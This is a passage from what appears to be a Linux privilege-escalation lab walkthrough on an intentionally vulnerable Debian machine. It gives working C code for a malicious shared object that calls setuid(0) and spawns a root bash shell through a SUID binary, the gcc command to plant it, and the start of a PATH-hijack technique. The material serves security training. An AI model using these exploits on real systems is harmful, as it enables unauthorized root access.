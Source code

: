 - Example shared object code can be found at `/home/user/tools/suid/libcalc.c`. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it:

    - libcalc.c:

        ```c
        user@debian:~$ cat /home/user/tools/suid/libcalc.c
        #include <stdio.h>
        #include <stdlib.h>

        static void inject() __attribute__((constructor));

        void inject() {
                setuid(0);
                system("/bin/bash -p");
        }
        ```

    - Compiling.

        ```bash
        user@debian:~$ gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
        ```

- Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.

    ```bash
    user@debian:~$ /usr/local/bin/suid-so
    Calculating something, please wait...
    bash-4.1# 
    ```

## SUID / SGID Executables - Environment Variables
The **/usr/local/bin/suid-env** executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

- First, execute the file and note that it seems to be trying to start the apache2 webserver:

    ```bash
    user@debian:~$ /usr/local/bin/suid-env
    [....] Starting web server: apache2httpd (pid 1719) already running
    . ok
    ```

- Run strings on the file to look for strings of printable characters:

    ```bash
    user@debian:~$ strings /usr/local/bin/suid-env
    /lib64/ld-linux-x86-64.so.2
    5q;Xq
    __gmon_start__
    libc.so.6
    setresgid
    setresuid
    system
    __libc_start_main
    GLIBC_2.2.5
    fff.
    fffff.
    l$ L
    t$(L
    |$0H
    service apache2 start
    ```
